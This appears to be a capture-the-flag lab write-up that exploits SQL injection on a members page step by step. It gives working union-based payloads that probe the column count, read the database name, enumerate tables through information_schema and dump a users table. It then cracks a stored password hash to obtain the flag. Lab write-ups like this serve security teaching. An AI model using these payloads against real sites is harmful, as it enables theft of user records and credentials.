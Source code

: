 # SQLI 1


## Attack scenario

On members I tried basic sqli 

> 1 or 1=1

I got all the members so basically there is sqli in members page second thing to do

> 1 union select 1

got an error:

> The used SELECT statements have a different number of columns

so I need to add more columns till i got the exact number o columns 

> 1 union select 1,2

the message error is gone, now we need to change 1 with 0 so we display only data we want.

> 0 union select 1,2

Lets deisplay the database name to do that we can change 1 or 2 with database function

>  0 union select 1,database()
>  
>  ID: 0 UNION select 1,database() 
>  
> First name: 1
> 
> Surname : Member_Sql_Injection

Now we need to find tables and their columns to do so lets try

> 0 UNION select 1,concat(table_name, 111,column_name) from information_schema.columns 

It worked so basically we concat table and column name I added 111 to separate them because we cant put a char or a string
we got alot of rows, lets search for users, we found users table lets display every column on users table

> 0 UNION select 1,concat(first_name,last_name,user_id,town,country,countersign,Commentaire) from users

flag user got a sus commentaire lets decrypt the countersign

> Decrypt this password -> then lower all the char. Sh256 on it and it's good !
> 
> 5ff9d0165b4f92b14994e5c685cdce28 (the countersign)


we got FortyTwo => tolower() => fortytwo => sha256 => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
